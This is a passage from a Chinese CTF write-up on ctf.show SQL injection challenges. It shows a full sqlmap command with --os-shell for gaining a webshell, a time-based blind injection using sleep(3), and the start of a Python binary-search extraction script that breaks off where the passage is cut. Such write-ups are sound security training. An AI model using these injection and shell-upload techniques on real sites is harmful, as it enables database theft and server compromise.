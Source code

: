 使用`--os-shell`一键getshell

```bash
sqlmap -u "https://e5927751-41bb-4026-a62b-afd42738d0a0.challenge.ctf.show/api/index.php" --method=put --data="id=1" --headers="Content-Type: text/plain" --cookie="PHPSESSID=rj2j2j2ool1bbkj2sps4u1m0ml; ctfshow=cbbfc316f35593f84f3ae1c60b64df16" --referer=ctf.show -D ctfshow_web --safe-url="https://e5927751-41bb-4026-a62b-afd42738d0a0.challenge.ctf.show/api/getToken.php" --safe-freq=1 --tamper show-web212.py --os-shell
```

默认会写入php文件上传的功能，具体木马由你自己生成

![upload](https://the0n3.top/medias/show-sql/upload.png)

上传木马，一键日站


## web 214  时间盲注

看其他师傅wp做，首页bp抓包还是f12看网络请求都没有发现api接口，直接dirsearch扫描了

![time0](https://the0n3.top/medias/show-sql/time0.png)

抓`/api/`的报文还是什么都没有

![214](https://the0n3.top/medias/show-sql/214.png)

在网络里看到`select.js`，点进去可以看到

```js
layui.use('element', function(){
  var element = layui.element;
  element.on('tab(nav)', function(data){
    console.log(data);
  });
});

$.ajax({
      url:'api/',
      dataType:"json",
      type:'post',
      data:{
        ip:returnCitySN["cip"],
        debug:0
      }

    });
```

ajax通过post请求/api/接口，有ip，debug的参数

hackbar发包，ip随便填，没有限制，debug的会影响页面是否回显。发包后返回了原sql语句`select id from ctfshow_info where ip = $_POST[ip]`，如果ip=sleep(3)，页面会缓慢的加载3秒后才响应，说明sleep执行成功

```python
import requests
import time
url = 'http://08d7032b-e019-444d-aeb7-2ba24dd99c9e.challenge.ctf.show/api/'
str = ''
for i in range(60):
    min,max = 32, 128
    while True:
        j = min + (max-min)//2
        if(min == j):
            str += chr(j)
            print(str)
            break
        # 爆表名(当前数据库)
```